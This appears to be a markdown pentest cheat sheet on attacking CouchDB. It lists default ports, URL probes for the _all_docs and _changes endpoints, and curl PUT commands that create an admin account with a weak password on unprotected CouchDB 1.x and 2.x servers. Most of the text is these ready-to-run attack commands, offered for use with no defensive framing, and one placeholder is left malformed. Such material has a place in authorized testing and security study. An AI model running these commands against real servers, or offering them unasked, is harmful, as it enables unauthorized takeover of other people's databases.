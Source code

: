 ## Fundamentals
### Default Open Ports
```
5984
6984
## Can you use 80 or 443
```

## Testing for couchDB
```bash
http://test.site/search.php?submit=Submit&search=_all_docs
or 
http://test.site/search.php?submit=Submit&search=_changes
```

### Adding new admin through unprotected CouchDB 1.x
```url
curl -s -X PUT http://test.site:5984/_config/admins/rob -d '"123456"'
```

### Adding new admin through unprotected CouchDB 2.x
```url
curl -s -X PUT http://test.site:5984/_node/<NODENAME/_config/admins/root -d '"123456"'
# The defailt node is "nonode@nohost", try "couchdb@localhost" as a node as well.
# All available nodes can be found through curl -X GET http://test.site:5984/_membership
```

